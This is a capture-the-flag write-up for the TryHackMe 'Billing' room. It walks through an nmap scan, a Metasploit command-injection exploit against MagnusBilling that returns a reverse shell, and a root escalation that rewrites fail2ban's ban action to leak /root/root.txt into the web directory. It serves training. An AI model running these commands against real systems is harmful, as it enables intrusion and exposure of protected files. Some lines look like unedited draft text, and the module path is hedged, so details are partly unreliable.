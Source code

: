 ```yaml
---
title: Billing
categories: [Web, Easy]
tags: [web, easy, nmap, dirsearch,Metasploit]
image: images/Billing/room_image.webp
---
```


# Billing - TryHackMe Writeup
Billing was a straightforward room where we exploited a command injection vulnerability in the MagnusBilling web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the fail2ban-server, we successfully escalated to the root user and completed the room.

## Step 1: Initial Reconnaissance with Nmap

Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV -sC -A -p- <targetIP>
```
![nmap](images/Billing/nmap.png)

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.
- **Port 3306 (msql)**
- **Port 5038 (Asterisk)**


Visiting `http://10.10.160.86/` redirects us to /mbilling/, where we find the MagnusBilling application running.

![web](images/Billing/website.png)


## step 2: Gaining an Initial Foothold via MagnusBilling RCE
Given the presence of the MagnusBilling application, our next step was to search for known vulnerabilities associated with it We immediately turned to Metasploit Framework to see if any public exploits were available.

Inside msfconsole, we searched for "magnusbilling":

![exploit](images/Billing/use .png)

```bash
msfconsole
search magnusbilling
```
This search yielded several potential exploits. We identified and selected exploit/linux/http/magnusbilling_rce_command_injection (or similar, based on your memory of the specific exploit number you mentioned, e.g., "num 6"). This exploit specifically targets a command injection vulnerability within the MagnusBilling application, which aligns with our goal of achieving Remote Code Execution (RCE).

We then proceeded to configure the necessary options for the exploit:

```console
use exploit/linux/http/magnusbilling_rce_command_injection # Replace with the exact module path
show options
set RHOSTS <targetIP>
set LHOST <yourTun0IP> # Or whatever interface you used for your VPN connection
exploit
```
After executing the exploit, we successfully obtained a reverse shell on the target system. Our initial shell landed us as the www-data user.

We navigated to /home/magnus and located the user.txt flag, confirming our successful initial compromise:

```shell
cd /home/magnus
ls -la
cat user.txt
```
![web](images/Billing/flag1.png)

## Step 3: Privilege Escalation.

Step-by-Step Explanation of the Commands

### 1. Restart Fail2Ban to apply any changes

```bash
sudo /usr/bin/fail2ban-client restart
```

This command restarts the Fail2Ban service.

It ensures any configuration changes or command modifications will be loaded and active.

You see a warning about allowipv6 not defined — this is normal and does not affect functionality.

### 2. Modify the ban action for the SSH jail

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"
```

This changes the actionban command for the sshd jail in Fail2Ban.

Instead of only banning IPs via iptables, it runs a bash command.

The bash command copies the content of /root/root.txt to a web-accessible location (/var/www/html/mbilling/lib/icepay/root_exposed.txt).

It then sets the permissions of this file to 777 (read/write/execute for everyone) to ensure it’s accessible.

This effectively leaks the root-only file to the web directory, allowing retrieval via HTTP.

### 3. Trigger the ban action by banning the localhost IP

```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This manually bans the IP address 127.0.0.1 (localhost) for the sshd jail.

Triggering this ban executes the modified actionban command.

The result is that the secret file is copied and permissioned as defined in step 2

### 4. Verify that the secret file is exposed

```bash
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt
```

This reads and displays the content of the copied file in the web directory.

The file contains the secret flag or sensitive information from /root/root.txt.

It confirms the success of the exploitation.



## Summary
The **"Billing"** machine on TryHackMe presented a clear path to compromise, starting with an Nmap scan to reveal open ports and the **MagnusBilling** web application. We exploited a Remote Code Execution (RCE) vulnerability in MagnusBilling using **Metasploit**, which granted us an initial **www-data** shell. For privilege escalation, we discovered a crucial sudo misconfiguration allowing interaction with **fail2ban-server**. By leveraging this, we successfully escalated to root, fully compromising the system and retrieving both the user and root flags.
